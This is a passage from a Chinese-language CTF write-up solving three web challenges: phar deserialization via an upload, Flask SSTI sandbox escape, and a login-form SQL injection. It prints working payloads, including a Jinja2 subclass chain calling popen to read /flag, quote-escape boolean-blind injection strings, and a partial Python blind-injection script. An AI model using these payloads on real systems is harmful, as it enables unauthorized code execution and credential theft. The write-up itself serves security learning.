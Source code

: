 ```
```

运行得到一个phar.phar，改后缀（ph被waf了），上传。

在read.php里面传入`compress.zlib://phar:///var/www/html/upload/xxx`获得flag

 

 

 

### babyflask

考点：常规SSTI和沙盒逃逸

题目挺友好的，没有任何过滤，随便找个payload就可以打出来；

```
?name={{().__class__.__bases__.__getitem__(0).__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}
```

 

 

 

 

### babyback

考点：sqli单引号逃逸、bool盲注、

进去一个登录框；

fuzz一波之后发现ban掉了单双引号，自然想到了\造成的单引号逃逸。

#### sqli盲注

```
username=\&password=||1#
//提示密码错误，正常的应该是用户名或密码错误
```

然后还发现ban了select，我拼命地想去绕，卡了很久，结果根本不用注表名列名，只需要得到管理员密码就行了（在robots.txt也有提示）

```
username=\&password=||ascii(substr(password,1,1))>1#
```

这里是盲注的exp：

```
#python3
#wh1sper
import requests
host = 'http://eci-2zebr3la2yjigbu8w27y.cloudeci1.ichunqiu.com/index.php'
def mid(bot, top):
    return (int)(0.5 * (top + bot))
def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            #babyselect = 'database()'#--p3rh4ps
            babyselect = 'password'#--uAreRigHt
            data = {
                "username": "\\",
                "password": "||ascii(substr({},{},1))>{}#".format(babyselect, j, mid(bot, top))
            }
            r = requests.post(url=host, data=data)
            #print(r.text)
            #print(data)
```